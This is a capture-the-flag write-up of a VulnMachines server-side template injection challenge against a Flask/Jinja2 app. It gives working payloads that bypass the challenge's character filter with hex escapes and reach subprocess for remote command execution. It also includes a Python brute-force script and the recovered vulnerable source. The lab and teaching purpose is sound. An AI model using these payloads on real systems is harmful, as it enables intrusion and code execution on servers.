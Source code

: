 ### Server Side Template Injection

<h3> VulnMachines SSTI </h3>
  
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5ba69ce8-7c1d-4b12-acd4-ac938cc0a05a)

After going over to the web page it shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/3f12114e-5007-40e8-872c-0852bc94afe7)

Trying to input something shows it get reflected back
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/6b197aee-aeec-4a59-ae29-fdf22ae038e5)

Using basic SSTI payload works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/0c3d4f0d-3339-4052-a5ff-80a80299048d)

Let's use this SSTI check to know what template engine it uses
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/72ceb69f-0749-42af-a825-e578cbcceee7)

First i'll try `${7*7}` but it doesn't get evaluated
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/fca6e016-516e-4d4e-99eb-f2f51a177d5a)

Next we move unto the down part of what we are using to get the template engine

Now i'll try this `{{7*7}}`
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/40a994fe-f655-4155-b869-57472c9ee536)

It gets evaluated

So we move unto `{{7*'7'}}`

But doing that gives us an error
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/727b0876-0742-4285-b9aa-90f9ffa334b7)

```
Your nickname contains restricted characters!
```

To bypass this we can try using double quote instead of single quote

Doing that works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1cd3936c-6e86-445b-ad6a-3162ba396fbd)

From here we can say the template engine is either *Jinja2 or Twig*

But from the web server header we can then conclude it's *Jinja2* templating engine that is being used since the webserver is built on python
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f1e4fd74-e41d-4cc8-8bff-b980e4cf0796)

The aim of this challenge is to get the flag 

Checking the {{config}} env works and shows the flag
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/4ad45aa4-090f-4af8-9756-dda57100a7d7)

```
Flag: 56756c6e6d616368696e6573202d20506c61636520666f722050656e746573657273
```

It is in it's hex form

I used python to decode it

```
#!/usr/bin/python3
# Author: Hack.You

encoded = '56756c6e6d616368696e6573202d20506c61636520666f722050656e746573657273'
decoded = bytes.fromhex(encoded)
flag = b'vnm{'+decoded+b'}'
print(f'Flag: {flag}')
```

Running it gives us the flag
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e81b6b1e-30d0-4f84-a5f3-82486aa33f81)

But how about we try get RCE

First I need to know the classes that are present and preferably the subprocess class

Reason is because it's a python module that allows us to execute commands
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/dbe5deff-2bf0-4f45-822f-f50bfc2397fe)

So here's the payload:

```
{{""|attr("__class__")|attr("__base__")|attr("__subclasses__")()}}
```

But giving that to the web server gives an error
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/53ac6936-426d-43c6-81c8-6a9177046c78)

```
Your nickname contains restricted characters!
```

It seems like it filters another character 

To make it easier i'll intercept one of the post request and save it in a file
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/6410d653-91b7-4369-bd27-b95cea534ad1)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/bc21fc54-736c-4da6-aa63-c70a73ff25ad)

Now i'll use ffuf to fuzz for allowed special characters
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/51b0b6af-5d24-475b-9c87-54d7361592ba)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1260f974-8e17-4d44-bcee-3b0d2a161e9c)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2e5bc423-bfad-4f9b-ac47-033ca5b6e72c)

Sorry about the way my ffuf is that's the new update :( 

But we can see the allowed characters :)

One way we can improvise in bypass the filter is by converting the blacklisted character to hex
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2155b706-5ad1-4fa6-a80d-5ae9297da27a)

So now here's the updated payload:

```
{{""|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5fbase\x5f\x5f")|attr("\x5f\x5fsubclasses\x5f\x5f")()}}
```

Using the updated payload works 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5e6054cd-da25-4b31-a12c-d1b2a2afd8fe)

Now we can check if the subprocess class is among it
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b19d4d65-bc52-4985-a927-6eda3d9984f0)

Cool it's among the classes

So the final payload should be:

```
{{""|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5fbase\x5f\x5f")|attr("\x5f\x5fsubclasses\x5f\x5f")()|attr("\x5f\x5fgetitem\x5f\x5f")(position_of_subprocess_number))("cat+app\x2epy",shell=True,stdout=-1)|attr("communicate")()|attr("\x5f\x5fgetitem\x5f\x5f")(0)|attr("strip")()}}
```

We need to get the position of the subprocess class number

Burp intruder can help with that :) i did try scripting this but unfortunately  i can't seem to make it send as raw data without it being converted to it's string form

```python
# Under dev
import requests

def main():

    url = 'http://hackme2.vulnmachines.com:8470/'

    for i in range(1000):
        
        data = {
            'nickname': '{{""|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5fbase\x5f\x5f")|attr("\x5f\x5fsubclasses\x5f\x5f")()|attr("\x5f\x5fgetitem\x5f\x5f")({})("id",shell=True,stdout=-1)|attr("communicate")()|attr("\x5f\x5fgetitem\x5f\x5f")(0)|attr("strip")()}}'.format(i)
        }
        
        reqStatusCode = requests.post(url, data=data).status_code

        if reqStatusCode == 200:
            print(f'[+] Subprocess position found at: {i}')


if __name__ == '__main__':
    main()
```

I'll just fuzz using Burp Intruder
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/04ec0628-1e92-44aa-99bd-a3c99e4f08bb)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/dc6c8896-3442-4ce3-8d02-75a0f544a6c4)

After running it I got this 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/52b7ad19-eb4f-419e-ba69-ed57e89e5e1b)

We can see the request with a content length of `258`

Checking it shows that it indeed works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/083c3b19-7840-4ecb-a003-1496c2233df9)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/11c50698-5687-49b5-bb7f-b251fed673c5)

And the position for the subprocess class is `286`

We can then try reading the app.py file
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/3062bfcd-5b67-4dee-b0ae-ba63e7ef6667)

```
{{""|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5fbase\x5f\x5f")|attr("\x5f\x5fsubclasses\x5f\x5f")()|attr("\x5f\x5fgetitem\x5f\x5f")(286)("cat+app\x2epy",shell=True,stdout=-1)|attr("communicate")()|attr("\x5f\x5fgetitem\x5f\x5f")(0)|attr("strip")()}}
```

Here's the result gotten from reading app.py (P.S: I exfiltrated it 🙂)

```
import random
from flask import Flask, render_template_string, render_template, request

app = Flask(__name__)
app.config['SECRET_KEY'] = 'Follow us on Twitter rapidsafeguard'

#Tiaonmmn don't remember to remove this part on deploy so nobody will solve that hehe
'''
def encode(line, key, key2):
    return ''.join(chr(x ^ ord(line[x]) ^ ord(key[::-1][x]) ^ ord(key2[x])) for x in range(len(line)))

app.config['flag'] = encode('', 'GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W3', 'xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVT')
'''

app.config['flag'] = '56756c6e6d616368696e6573202d20506c61636520666f722050656e746573657273'
#app.config['flag']="Success fully pass SSTI"
nicknames = ['˜”*°★☆★_%s_★☆★°°*', '%s ~♡ⓛⓞⓥⓔ♡~', '%s Вêчңø в øĤлâйĤé', '♪ ♪ ♪ %s ♪ ♪ ♪ ', '[♥♥♥%s♥♥♥]', '%s, kOтO®Aя )(оТеЛ@ ©4@$tьЯ', '♔%s♔', '[♂+♂=♥]%s[♂+♂=♥]']
#nicknames=['psycho','rapidsafeguard']
@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        try:
            p = request.values.get('nickname')
            id = random.randint(0, len(nicknames) - 1)
            if p != None:
                if '.' in p or '_' in p or '\'' in p:
                    return 'Your nickname contains restricted characters!'
                return render_template_string(nicknames[id] % p)

        except Exception as e:
            print(e)
            return 'Exception'

    return render_template('index.html')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```

We can also see the flag there 😅

And we're done 👻

